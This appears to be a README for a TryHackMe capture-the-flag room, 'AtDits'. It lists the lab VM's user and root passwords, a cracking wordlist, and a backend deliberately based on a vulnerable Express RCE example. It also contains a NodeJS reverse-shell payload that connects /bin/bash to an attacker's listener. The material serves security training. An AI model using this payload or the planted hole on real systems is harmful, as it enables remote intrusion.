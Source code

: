 # thm_atdits
This repository holds or links to all the files needed to complete or recreate the TryHackMe room [AtDits](https://tryhackme.com/jr/atdits).

## Login Data for the VM
>User: paul  
>Password: SicheresPasswort

>User: root  
>Password: IchMagZuege!

>[Private Key](VM-Key/id_rsa) Passphrase  
>felix1


## Injection params for netcat
```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
## Short password list

The short [password list](passwordlist/rockyou.txt) is a list of around 200 passwords from the rockyou.txt list.  
It holds also the passophrase for the private key.

## VM
The VM is a Ubuntu Server 20.04 Image.  
It is in the `.ova` format and can be directly uploaded to TryHackMe.

File: [VM.ova](VM-Image/THM-ATdITS.ova)

## Backend
The backend is a simple NodeJS server with ExpressJS.
To run it, you need to have NodeJS installed.  
Then you can run `npm install` in the backend folder to install all the dependencies.
After that you can run `node app.js` to start the server.
The server will run on port 8080.

The server is based on this [example](https://github.com/appsecco/vulnerable-apps/tree/master/node-simple-rce) for RCE with ExpressJS.

## Frontend
The frontend is a VueJS app.
To run it, you need to have NodeJS installed.  
Then you can run `npm install` in the frontend folder to install all the dependencies.
After that you can run `npm run dev` to start the server.
The server will run on port 5173.

## Documentation
For further information, please read the [documentation](Documentation.md).
